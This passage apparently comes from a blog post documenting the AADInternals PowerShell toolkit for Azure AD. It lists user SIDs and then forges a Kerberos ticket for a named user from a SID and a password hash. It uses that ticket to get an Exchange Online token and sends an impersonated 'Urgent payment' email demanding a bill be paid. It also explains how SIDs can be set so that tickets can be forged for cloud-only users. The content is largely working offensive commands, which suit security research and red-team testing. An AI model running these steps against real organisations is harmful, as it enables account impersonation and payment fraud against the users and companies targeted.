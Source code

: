 To list users' SIDs from Azure AD, use the AzureAD module:
{{< highlight powershell >}}
# Connect to AzureAD (if not done yet)
Connect-AzureAD

# List users names and SIDs:
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier
{{< /highlight>}}
```
UserPrincipalName                                OnPremisesSecurityIdentifier                  
-----------------                                ----------------------------                  
admin@company.com                        
admin@company.onmicrosoft.com                
AlexW@company.com                                S-1-5-21-854168551-3279074086-2022502410-1104 
AllanD@company.com                               S-1-5-21-854168551-3279074086-2022502410-1105 
DiegoS@company.com                               S-1-5-21-854168551-3279074086-2022502410-1106 
IsaiahL@company.com                              S-1-5-21-854168551-3279074086-2022502410-1107 
JoniS@company.com                                S-1-5-21-854168551-3279074086-2022502410-1108 
Sync_SERVER_10923a482f0a@company.onmicrosoft.com                                                        
``` 

Now we are able to create Kerberos ticket to AlexW:
{{< highlight powershell >}}
# Create a new Kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
{{< /highlight>}}

With the kerberos ticket, you can now get OAuth Access Token to be used with AADInternals functions.
{{< highlight powershell >}}
# Get an access token for Exchange Online
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com

# Send a message using "Outlook"
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
{{< /highlight>}}

## Creating Kerberos tickets for cloud-only users
If the Active Directory administrators have access to Azure AD Connect, they can set SID for any cloud-user. 
This way Kerberos tokens can be created also for cloud-only users. The only requirement is that the SID is a proper 
<a href="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824(v=ws.10)" target="_blank">SID</a>.
